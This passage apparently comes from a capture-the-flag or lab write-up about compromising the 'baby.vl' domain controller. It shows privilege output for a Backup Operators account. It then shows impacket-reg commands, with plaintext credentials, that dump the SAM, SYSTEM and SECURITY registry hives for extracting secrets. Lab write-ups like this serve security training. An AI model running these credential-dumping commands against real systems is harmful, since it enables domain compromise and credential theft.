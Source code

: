```
BABY\it                                    Group            S-1-5-21-1407081343-4001094062-1444647654-1109 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled  <---
SeRestorePrivilege            Restore files and directories  Enabled  <---
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

The user was in a powerful group `Backup Operators` and possessed powerful privileges `SeBackupPrivilege`, `SeRestorePrivilege`. They can be abused to extract sensitive information like SAM/LSA secrets and NTDS database. 

### SeBackupPrivilege Abuse

At this point, there were multiple ways to compromise the domain controller. I proceeded to make a copy of the SAM/LSA secrets using `reg.py`.
```
❯ impacket-reg baby.vl/Caroline.Robinson:Password1@babydc.baby.vl save -keyName 'HKLM\SAM' -o 'c:\programdata'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to c:\programdata\SAM.save

❯ impacket-reg baby.vl/Caroline.Robinson:Password1@babydc.baby.vl save -keyName 'HKLM\SYSTEM' -o 'c:\programdata'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SYSTEM to c:\programdata\SYSTEM.save

❯ impacket-reg baby.vl/Caroline.Robinson:Password1@babydc.baby.vl save -keyName 'HKLM\SECURITY' -o 'c:\programdata'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SECURITY to c:\programdata\SECURITY.save
```
